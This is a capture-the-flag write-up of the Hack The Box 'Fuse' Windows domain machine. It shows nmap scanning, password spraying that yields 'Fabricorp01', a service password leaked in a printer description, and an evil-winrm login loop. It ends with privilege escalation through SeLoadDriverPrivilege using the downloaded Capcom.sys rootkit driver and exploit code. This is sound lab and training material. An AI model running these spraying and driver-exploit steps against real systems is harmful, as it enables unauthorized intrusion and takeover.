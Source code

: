 ```yaml
---
icon: /assets/avatars/fuse.png
image: /assets/avatars/fuse.png
title: Fuse Writeup
author: Valerio Casalino
---
```


# Fuse

As always `nmap`:

```bash
sudo nmap -sC -sV -oA nmap/initial 10.10.10.193
```

```
PORT     STATE SERVICE      VERSION
53/tcp   open  domain?
| fingerprint-strings:
|   DNSVersionBindReqTCP:
|     version
|_    bind
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html).
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-10-24 13:22:53Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: FABRICORP)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
...
Service Info: Host: FUSE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h37m53s, deviation: 4h02m30s, median: 17m53s
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Fuse
|   NetBIOS computer name: FUSE\x00
|   Domain name: fabricorp.local
|   Forest name: fabricorp.local
|   FQDN: Fuse.fabricorp.local
|_  System time: 2020-10-24T06:25:11-07:00
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2020-10-24T13:25:12
|_  start_date: 2020-10-23T23:24:56
```

Going to port 80, we are redirected to `http://fuse.fabricorp.local/papercut/logs/html/index.htm`, so we add this to hosts file:

```bash
echo -e "\n\n#HTB\n10.10.10.193 fuse.htb fuse.fabricorp.local fabricorp.local\n" | sudo tee -a /etc/hosts
```

We can see this web interface in front of us:

![image-20201024160036103]({{ site.url }}/assets/fuse/image-20201024160036103.png)

Watching the printer logs, we can see a bunch of user names, we can put the in a file that we call `users.txt`.

```
# users.txt
pmerton
tlavel
sthompson
bhult
administrator
```

Now we have to generate a word list for possible passwords, after I tried with classic `rockyou.txt` I tried with `cewl` on the main site:

```bash
cewl -d 5 -m 3  "http://fuse.fabricorp.local/papercut/logs/html/index.htm" --with-numbers > pass_wordlist.txt
```

 And trying password spray on all login names:

![image-20201024181235149]({{ site.url }}/assets/fuse/image-20201024181235149.png)

And eventually, credentials are found:

```
...
[+] 10.10.10.193:445      - 10.10.10.193:445 - Success: '.\tlavel:Fabricorp01'
...
[+] 10.10.10.193:445      - 10.10.10.193:445 - Success: '.\bhult:Fabricorp01'
...
```

When trying to login into `tlavel`, we get:

![image-20201024182201752]({{ site.url }}/assets/fuse/image-20201024182201752.png)

And after some research, I found [this forum question](https://samba.samba.narkive.com/I0oDpMEz/smbclient-says-nt-status-password-must-change-how-to-change-password) (if you can't read play a little with F12), which gave me the answer to my problem:

```bash
smbpasswd -r 10.10.10.193 -U tlavel
```

Note that the new password should be different from the old and with the same length, with the same number on capitalized letters and numbers. I choose `Lolzcorp01`. Hopping on RPC, let's enumerate a little more:

```
rpcclient -U FABRICORP\\tlavel 10.10.10.193

rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[svc-print] rid:[0x450]
user:[bnielson] rid:[0x451]
user:[sthompson] rid:[0x641]
user:[tlavel] rid:[0x642]
user:[pmerton] rid:[0x643]
user:[svc-scan] rid:[0x645]
user:[bhult] rid:[0x1bbd]
user:[dandrews] rid:[0x1bbe]
user:[mberbatov] rid:[0x1db1]
user:[astein] rid:[0x1db2]
user:[dmuir] rid:[0x1db3]

rpcclient $> enumprinters
        flags:[0x800000]
        name:[\\10.10.10.193\HP-MFT01]
        description:[\\10.10.10.193\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]
        comment:[]
```

We found a password, now what you should do is try that password with your user list (updated with the user list of the `rpcclient` command) in `evil-winrm`.

```bash
_pass='$fab@s3Rv1ce$1' 
for user in $( cat ./users.txt ); do evil-winrm -i 10.10.10.193 -u "$user" -p "$_pass" && echo "$user:$_pass" >> creds.txt; done
```

But after a little research, I discovered this Metasploit module `auxiliary/scanner/winrm/winrm_login`, which was way faster:

![image-20201024185240383]({{ site.url }}/assets/fuse/image-20201024185240383.png)

Then, login with the correct user and password:

![image-20201024185523943]({{ site.url }}/assets/fuse/image-20201024185523943.png)

To get some files into the box, I created a temporary smb share on the attacker machine:

![image-20201024190419653]({{ site.url }}/assets/fuse/image-20201024190419653.png)

And connected to it from the box with the [powershell method](https://community.spiceworks.com/topic/2219152-powershell-mapping-network-drive):

```powershell
$password = ConvertTo-SecureString "lolz" -AsPlainText -Force
$credentials = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "lolz",$password
New-PSDrive -Name L -PSProvider FileSystem -Root "\\10.10.14.86\lolz" -Credential $credentials
```

![image-20201024192002890]({{ site.url }}/assets/fuse/image-20201024192002890.png)

And now let's load [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASbat/winPEAS.bat) into our share and let's execute it from the box. From the output, we understand that our regular user has administrator's privileges with `SeLoadDriverPrivilege`. Now, to exploit this privilege, we can follow the instructions in [this article](https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation/). Basically, to run the exploit, we should

> At this point we can use the PoC tool EOPLOADDRIVER (https://github.com/TarlogicSecurity/EoPLoadDriver/), which will allow us to:
>
> * Enable the **SeLoadDriverPrivilege** privilege
>
> * Create the registry key under HKEY_CURRENT_USER (HKCU) and set driver configuration settings
>
> * Execute the **NTLoadDriver** function, specifying the registry key previously created

```bash
wget "https://github.com/TarlogicSecurity/EoPLoadDriver/raw/master/eoploaddriver.cpp"
wget "https://github.com/FuzzySecurity/Capcom-Rootkit/raw/master/Driver/Capcom.sys"
git clone "https://github.com/tandasat/ExploitCapcom"
```

Now you should hop in a Windows machine and compile the C++ code editing the command that you want to be executed, but while I was looking for more information, I stumbled in [this merged pull request](https://github.com/rapid7/metasploit-framework/pull/7363) that could make everything way easier, but unfortunately my Metasploit console wouldn't accept my credentials... So... Back to the boring method:

```powershell
# Powershell on Windows machine (mingw required)
g++ .\eoploaddriver.cpp -o eoploaddriver.exe
# Edit the launched string in ExploitCapcom and recompile
```

Copy the files in whatever folder, then:

![image-20201025015005268]({{ site.url }}/assets/fuse/image-20201025015005268.png)

![image-20201025015103961]({{ site.url }}/assets/fuse/image-20201025015103961.png)

...profit!
